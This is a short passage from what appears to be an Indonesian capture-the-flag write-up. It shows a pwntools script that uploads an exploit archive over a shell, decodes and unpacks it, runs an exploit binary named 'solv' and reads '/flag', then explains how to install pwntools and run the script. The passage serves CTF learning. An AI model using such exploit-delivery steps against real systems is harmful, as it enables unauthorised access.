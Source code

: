 ```py
p.sendline("base64 -d b64_exp > exp.tar.gz;")
p.sendline("tar -xzvf exp.tar.gz")
p.sendline("./solv") #sesuaikan dengan nama file pada line 6
p.sendline("cat /flag")
p.interactive()
```

Untuk menjalankan code tersebut ktia perlu menginstall library pwntool pada python 

```
$ sudo pip3 install pwntools
$ python3 transfer.py DEBUG // tunggu cukup lama dan flag akan muncul jika exploit berhasil